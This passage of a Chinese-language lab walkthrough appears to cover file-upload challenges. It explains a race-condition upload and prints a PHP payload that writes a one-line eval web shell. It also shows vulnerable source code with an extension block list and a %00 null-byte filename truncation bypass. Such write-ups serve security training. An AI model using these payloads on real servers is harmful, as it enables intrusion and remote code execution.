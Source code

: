 审计可以得到代码的逻辑是这样的：

-> 首先使用`move_uploaded_file()`函数将文件移动到上传目录

-> 判断扩展名是否为jpg \| png \| gif，如果是则重命名，如果不是则删除文件

那么这里考察的应该是条件竞争了，方法就是在上传一个test.php，文件内容为：

``` php
<?php system("echo '<?php @eval($_POST[pass]);?>' > shell.php");?>
```

然后我们通过一个python多进程脚本来上传并访问该文件，如果能在文件被删除前访问到test.php，那么就会把一句话写入当前目录的shell.php，成功getshell

## Pass-18

这一关有疑问，搞明白再来写

## Pass-19

源码如下：

``` php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
可以看到`$file_name`是可控的，那么这里仍然可以使用`%00`截断

抓包修改filename为：`shell.php%00.jpg`，然后将`%00`使用burp的url解码，发包即可成功上传
